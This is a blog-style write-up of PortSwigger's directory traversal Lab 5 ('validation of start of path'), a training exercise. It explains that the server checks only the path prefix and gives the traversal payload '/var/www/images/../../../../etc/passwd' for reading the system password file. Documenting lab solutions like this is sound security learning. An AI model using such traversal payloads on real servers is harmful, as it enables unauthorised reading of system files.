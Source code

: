 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Lab 5"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal]
categories: [PortSwigger]
---
```


# Lab 5 - Directory Traversal - File path traversal, validation of start of path
><b>Lab Objective:</b>
<br/><br/>
This lab contains a path traversal vulnerability in the display of product images.
The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.<br/><br/>
To solve the lab, retrieve the contents of the `/etc/passwd` file.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path">Port Swigger - Lab 5</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/44691844">Rana Khalil - Lab 5</a>
<br/>

### Solution
<hr/>

#### 1. Investigate client default request and notice `/var/www/images` is appended to each image request.

#### 2. Append our payload after `/var/www/images`

```
../../../../etc/passwd
/var/www/images/../../../../etc/passwd
```

![Directory Traversal - Lab 5 - Start of path](/images/portswigger/DirectoryTraversal/lab5/directory-traversal-lab5.png)

<hr/>
